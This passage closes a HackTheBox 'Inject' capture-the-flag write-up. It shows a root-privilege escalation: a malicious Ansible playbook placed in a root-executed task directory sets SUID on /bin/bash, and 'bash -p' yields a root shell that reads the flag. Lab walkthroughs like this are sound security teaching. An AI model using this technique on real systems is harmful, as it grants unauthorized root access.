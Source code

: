 
With this, we can leverage the fact that root executes the tasks to run privileged commands. In this case, we will execute the command `chmod u+s /bin/bash` to assign the SUID privilege to `/bin/bash`.

```
---
- name: test play
  hosts: localhost
  serial: 3
  gather_facts: False

  tasks:
    - name: first task
      command: chmod u+s /bin/bash
```

Next, we will save this content in a file named `pwned.yml` in the `/opt/automation/tasks/` directory. After a few minutes, the `/bin/bash` file will acquire the SUID attribute.

```
phil@inject > ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Now, all that's left is to execute the command `bash -p` to obtain a root shell.

```
phil@inject > bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
b1e**************************205
bash-5.0# 
```



### Thank you for reading:

+  [Instagram](https://www.instagram.com/elswix_/)
+  [YouTube](https://www.youtube.com/@ElSwix)
+  [Twitter](https://twitter.com/elswix_)
+  [HackTheBox](https://app.hackthebox.com/profile/935172)


#### My Blog: 

+ [WebHackology - Pentesting & Web Development](https://webhackology.vercel.app/)



